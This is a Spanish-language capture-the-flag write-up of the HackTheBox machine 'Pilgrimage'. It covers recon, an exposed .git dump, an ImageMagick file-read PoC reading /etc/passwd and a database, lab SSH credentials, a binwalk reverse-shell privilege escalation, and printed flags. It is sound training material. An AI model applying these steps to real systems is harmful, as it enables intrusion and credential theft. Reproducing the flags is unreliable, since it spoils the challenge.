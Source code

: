 ```yaml
---
title: Pilgrimage HTB
date: 2023-07-11
tier: easy
author: naibu3
---
```

#linux #web #imagemagick #git

## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --min-rate 5000 -n -Pn 10.10.11.219 -vvv
```
```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

```bash
sudo nmap -sCV -p22,80 -n 10.10.11.219 -vvv
```
```nmap
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si accedemos a la ip via web, nos encontraremos con que se nos redirige a `pilgrimage.htb`. Lo añadimos al `/etc/hosts` y ya podremos ver una *subida de archivos*, una pestaña de *login* y otra de *registro*.

Con [[whatweb]] podemos ver que tecnologías utiliza la web:

```whatweb
http://pilgrimage.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.219], JQuery, Script, Title[Pilgrimage - Shrink Your Images], nginx[1.18.0]
```

Aunque no vemos nada.

A continuación, podemos tratar de buscar recursos, comenzamos con [[dirb 1]]:

```dirb
---- Scanning URL: http://pilgrimage.htb/.git/ ----
+ http://pilgrimage.htb/.git/config (CODE:200|SIZE:92)
==> DIRECTORY: http://pilgrimage.htb/.git/hooks/
+ http://pilgrimage.htb/.git/index (CODE:200|SIZE:3768)
==> DIRECTORY: http://pilgrimage.htb/.git/info/
==> DIRECTORY: http://pilgrimage.htb/.git/logs/
==> DIRECTORY: http://pilgrimage.htb/.git/objects/
```

Como va un poco lento vamos a continuar con [[gobuster]], tanto en **hooks**, como en **info** y **logs** no vemos nada interesante, así que probamos en **objects**:

```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://pilgrimage.htb/.git/objects -t 20
```
```gobuster
/.htpasswd (Status: 403) [Size: 153]
/.hta (Status: 403) [Size: 153]
/.htaccess (Status: 403) [Size: 153]
/06 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/06/]
/11 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/11/]
/23 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/23/]
/50 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/50/]
/96(Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/96/]
/ca  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/ca/]
/cd (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/cd/]
/dc (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/dc/]
/fa (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/fa/]
/fb (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/fb/]
/info (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/info/]
/pack (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/pack/]
```

Como hay muchos recursos, lo mejor es utilizar una herramienta como [[git-dumper]] para volcarnos todo el repositorio en local:

```bash
git-dumper -j4 http://pilgrimage.htb/.git/ ./git
```

Si entramos y echamos un vistazo a los archivos, en la raíz encontramos [[ImageMagick 1]], si lo ejecutamos con el parámetro `--version`, podremos listar la versión:

```bash
./magick --version
```
```magick
Version: ImageMagick 7.1.0-49 beta[...]
```

Si hacemos una búsqueda en internet, encontraremos una vuln llamada [Arbitrary File Read](https://www.exploit-db.com/exploits/51261).

## Explotación

Ejecutamos el comando de la PoC:

```bash
cargo run "/etc/passwd"
```

Nos dará como resultado una imagen que debemos subir a la web para que se procese. Una vez acabe, nos descargamos ola imagen con [[wget]] y ejecutamos el siguiente comando de [[ImageMagick 1]]:

```bash
identify -verbose 64ad72b7d4c8b.png
```
```identify
Raw profile type: 
    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a
```

Si lo analizamos en [cyberchef]():

```xml
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Vemos que efectivamente podemos listar el `/etc/hosts`. Ahora tenemos los posibles usuarios **root** y **emily**. Además revisando el archivo `register.php` del repo, podemos ver que existe una BD (`sqlite:/var/db/pilgrimage`). Por tanto podemos tratar de listar dicho archivo:

```bash
cargo run "/var/db/pilgrimage"
```

Si repetimos el proceso, encontramos la cadena `-emilyabigchonkyboi123`.

Si probamos a conectarnos por ssh con las credenciales `emily:abigchonkyboi123`, son válidas, por lo que ya tenemos la **flag del usuario**!

```flag
eaa990cb07004e074f0fcbf73dde742f
```

## Escalada de privilegios

Una vez dentro debemos aplicar un [[Reconocimiento del equipo]], por lo que lanzamos [[pspy]]. Entre otros procesos, encontramos una tarea que ejecuta `/usr/sbin/malwarescan.sh` periodicamente:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

Vemos que está utilizando [[binwalk]], si lo ejecutamos vemos que está en la versión `2.3.2`, que resulta ser vulnerable.

Para obtener una shell como root podemos usar el siguiente [exploit](https://www.exploit-db.com/exploits/51249). Una vez ejecutado generará una imagen que contiene una **reverse shell**, la copiamos a `/var/www/pilgrimage.htb/shrunk/`, y nos ponemos en escucha en nuestra máquina local con [[netcat]]. Después lo accedemos con [[wget]] (`http://pilgrimage.htb/shrunk/binwalk_exploit.png`). Y ya deberíamos tener una shell como root en netcat. Si leemos `/root/root.txt` ya tenemos la **flag**!

```flag
99a960fd480eeb9e0915775c49c78db3
```

